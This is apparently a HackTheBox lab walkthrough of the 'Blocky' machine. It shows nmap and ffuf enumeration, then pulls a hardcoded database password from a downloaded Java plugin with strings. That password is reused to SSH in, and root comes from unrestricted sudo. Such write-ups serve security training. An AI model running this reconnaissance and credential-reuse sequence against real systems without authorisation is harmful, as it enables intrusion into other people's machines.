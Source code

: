 # HackTheBox: [Blocky](https://app.hackthebox.com/machines/Blocky)

## Enumeration

```console
$ nmap -n -sCV -A -T4 -p1-65535 -v $t
[...]
Host is up (0.11s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[...]
```

The target is running a Wordpress site:

![](_/htb-blocky-20231004-1.png)

Web content discovery via `ffuf`:

```console
$ ffuf -ic -v -w ~/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://blocky.htb/FUZZ
[...]
[Status: 200, Size: 52227, Words: 3306, Lines: 314, Duration: 146ms]
| URL | http://blocky.htb/
    * FUZZ: 

[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 100ms]
| URL | http://blocky.htb/wiki
| --> | http://blocky.htb/wiki/
    * FUZZ: wiki

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 107ms]
| URL | http://blocky.htb/wp-content
| --> | http://blocky.htb/wp-content/
    * FUZZ: wp-content

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 98ms]
| URL | http://blocky.htb/plugins
| --> | http://blocky.htb/plugins/
    * FUZZ: plugins

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 102ms]
| URL | http://blocky.htb/wp-includes
| --> | http://blocky.htb/wp-includes/
    * FUZZ: wp-includes

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 104ms]
| URL | http://blocky.htb/javascript
| --> | http://blocky.htb/javascript/
    * FUZZ: javascript

[Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 103ms]
| URL | http://blocky.htb/wp-admin
| --> | http://blocky.htb/wp-admin/
    * FUZZ: wp-admin

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 99ms]
| URL | http://blocky.htb/phpmyadmin
| --> | http://blocky.htb/phpmyadmin/
    * FUZZ: phpmyadmin

[Status: 200, Size: 52227, Words: 3306, Lines: 314, Duration: 145ms]
| URL | http://blocky.htb/
    * FUZZ: 

:: Progress: [87651/87651] :: Job [1/1] :: 141 req/sec :: Duration: [0:04:38] :: Errors: 0 ::
```

The `/plugins` directory is serving two files:

![](_/htb-blocky-20231004-2.png)

I download them to my machine and run `strings` on the Java class:

```console
$ strings BlockyCore.class 
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
[...]
```

`root`, `localhost`, and `8YsqfCTnvxAUeduzjNSXe22` are interesting.

I find a username `notch` via a Wordpress post:

![](_/htb-blocky-20231004-3.png)

## Exploitation

Trying the username and password credentials for `ssh` yields success:

```console
$ ssh notch@$t
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
[...]
notch@Blocky:~$ cat user.txt
fb7682[...]
```

## Privilege Escalation

The user has `root` privileges via `sudo`:

```console
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su -
root@Blocky:~# cat /root/root.txt
d90ffb[...]
```
